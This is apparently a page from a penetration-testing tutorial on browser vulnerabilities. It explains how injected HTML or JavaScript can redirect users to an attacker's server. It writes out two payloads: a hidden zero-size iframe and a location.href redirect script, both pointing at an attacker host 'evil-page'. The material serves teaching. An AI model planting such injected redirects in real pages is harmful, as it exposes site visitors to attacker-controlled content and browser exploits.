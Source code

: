 # Browser Vulnerabilities



We have mostly been looking at vulnerabilities found in sites that let's us either attack the user or the underlying system. But there is also another sort of vulnerability. When the browser itself is vulnerable and can lead to remote code execution.

And example of this is ms12-036.

### XSS and redirection <a id="xss-and-redirection"></a>

Most attacks against browsers is based on social engineering. The idea is that you trick the user to click on a link. That link, or that website, is usually controlled by the attacker in one way or another. It can be a legitimate site that the attacker is using, or it might be the attackers own server.

Foe example, if the attacker is able to inject code html or javascript the attacker can redirect the user to load another page.

One technique is to hide the redirection in a frame, this way the user won't even notice that an external page is being loaded.

```text
<iframe SRC="http://192.168.1.101/evil-page" height = "0" width ="0"></iframe>
```

A less subtle technique is by just redirecting the user, with a script like this:

```text
<script>location.href='http://192.168.1.101/evil-page';</script>
```

